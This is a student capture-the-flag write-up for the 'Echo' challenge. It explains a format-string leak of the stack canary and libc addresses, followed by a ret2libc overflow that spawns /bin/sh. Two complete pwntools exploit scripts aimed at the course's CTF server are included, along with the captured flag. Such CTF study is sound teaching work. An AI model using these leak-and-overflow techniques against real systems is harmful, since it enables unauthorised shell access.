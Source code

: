 # Optional CTF - Echo
<figure>
<img src='https://2603957456-files.gitbook.io/~/files/v0/b/gitbook-legacy-files/o/assets%2F-LFEMnER3fywgFHoroYn%2F-MXwAmlrjE8Ejl_0OQQX%2F-MY1FO9lURZfx9fTrAf0%2Fimage.png?alt=media&token=39659182-e3ff-4d34-a031-c7091567890a' />
<figcaption>Stak explanation (link: https://2603957456-files.gitbook.io/~/files/v0/b/gitbook-legacy-files/o/assets%2F-LFEMnER3fywgFHoroYn%2F-MXwAmlrjE8Ejl_0OQQX%2F-MY1FO9lURZfx9fTrAf0%2Fimage.png?alt=media&token=39659182-e3ff-4d34-a031-c7091567890a)</figcaption>
</figure>

**1.** Firstly, we checked the file given using the checksec command.

![Image 01 - checksec file program](CTFs/Opcionals/Img/4-Echo/1.checksec_program.png)

- Seeing the resuts, we can conclude that it's going to be difficult to overwrite the stack beacause this stack as a canary protecting him.

- After some time thinking, we got to the conclusion that we would need to overwrite the return address, and in order to do this we would need to store the canary's value.

- We were given the _libc_ library. We can now use the _strings_ utility to find the offset of string **/bin/sh** relative to the start of the libc binary:

```bash
strings -a -t x libc.so.6 | grep "/bin/sh"
```

![Image 02 - /bin/sh address](CTFs/Opcionals/Img/4-Echo/2.bin_sh_address.png)

- This means that, in our vulnerable program, at address 0x1bd0f5 we should see the string `/bin/sh`.

**2.** Secondly, we need to find the offset address of the _libc_ library.

```bash
readelf.py -s libc.so.6 lgrep system
```

![Image 03 - base address of the _libc_ library](CTFs/Opcionals/Img/4-Echo/3.glibc_library_address.png)

- In this case, we can conclude that the memeory address of the offset of the _libc_ library is `0x00048150`.

**3.** Thirdly, we need to find the address where the vulnerability starts in our program.

```bash
(gdb) info proc map
```

- From the output we can conclude that the base address of the _libc_ library where the vulnerability starts in our _program_ file is at 0xf7d89000.


**4.** After getting all this values, we can create a python script that prints all the values that are on the memory interval of the _libc_ library. 

```py
#!/usr/bin/python3
from pwn import *

p = remote("ctf-fsi.fe.up.pt", 4002)

for i in range(1,14):
    p.recvuntil(b">")
    p.sendline(b"e")
    p.recvuntil(b"Insert your name (max 20 chars): ")
    p.sendline("%" + str(i) + "$10p")
    answer = p.recvline()
    print("i: ", i, "->stack", answer)
    p.recvuntil(b"Insert your message: ")
    p.sendline(b"")

p.interactive()
```

![Image4 - getValues.py value in the middle](CTFs/Opcionals/Img/4-Echo/4.address_in_the_middle_of_the_stack.png)

- From the result, we need to store the value that is between the start address of the program file and the end address of the same. We ca conclude, in this case, that the value is `0xf7e24ecb`. In our case, we used the value got on the 1st try `0xf7daa519`. 

- After this, run once again the getValues.py file.

![Image5 - getValues.py canary address](CTFs/Opcionals/Img/4-Echo/5.get_value_result.png)

- We also need to store the value of the canary in order to store it after the stack be overwritten (address of canary is `0x59e48500`).


**5.** After getting all this 5 values, we need to create a python script in order to unloack the working directory and cat the flag.

```py
#!/usr/bin/python3
from pwn import *

LOCAL = False

valueInTheMiddleLibc = 0xf7daa519
addressLib = 0xf7d89000
referenceLibOffset = valueInTheMiddleLibc - addressLib
systemLibOffset = 0x00048150
shLibOffset = 0x1bd0f5

def sendMessage(p,message):
	p.recvuntil(b">")
	p.sendline(b"e")
	p.recvuntil(b"Insert your name (max 20 chars): ")
	p.sendline(message)
	answer = p.recvline()
	p.recvuntil(b"Insert your message: ")
	p.sendline(b"")
	
	return answer

if LOCAL:
	pause()
else:
	p = remote("ctf-fsi.fe.up.pt", 4002)

message1 = sendMessage(p, b"%8$x | %11$x")

canary, referenceVal = [int(val,16) for val in message1.split(b'|')]

libBase = referenceVal - referenceLibOffset
addressSystem = libBase + systemLibOffset
addressSH = libBase + shLibOffset

message2 = flat(b"A"*20, canary + 1, b"A"*8, addressSystem, b"A"*4, addressSH)

sendMessage(p,message2)

message3 = b"E"*19

sendMessage(p,message3)

p.interactive()
```

- Running this python script, we are able to enter the working directory and get the _flag.txt_.

![Image6 - exploit-example.py result, flag](CTFs/Opcionals/Img/4-Echo/6.flag_result.png)


### Flag

`flag{122d40cb0dd355c631057cf597de3dac}`

<span>* We based our research and procedure in the website: https://www.ired.team/offensive-security/code-injection-process-injection/binary-exploitation/return-to-libc-ret2libc .</span>

